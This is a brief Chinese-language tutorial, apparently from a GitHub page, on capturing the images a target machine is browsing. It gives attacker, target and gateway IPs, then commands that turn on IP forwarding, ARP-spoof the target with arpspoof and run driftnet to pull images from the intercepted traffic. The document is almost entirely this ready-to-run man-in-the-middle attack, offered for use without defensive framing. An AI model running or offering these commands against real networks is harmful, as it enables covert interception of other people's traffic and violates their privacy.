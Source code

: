 # arpspoof+driftnet截取目标主机浏览的图片
---

攻击者网卡:eth0  
攻击者ip: 192.168.1.2  
目标ip: 192.168.1.3  
网关ip: 192.168.1.1

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启另一个终端    

```bash
driftnet -i eth0
```

注：
> <kbd>driftnet</kbd>命令为查看本机网卡的图片。

将目标ip的流量转发到本机然后查看本机网卡的图片即可实现获取目标主机正在浏览的图片。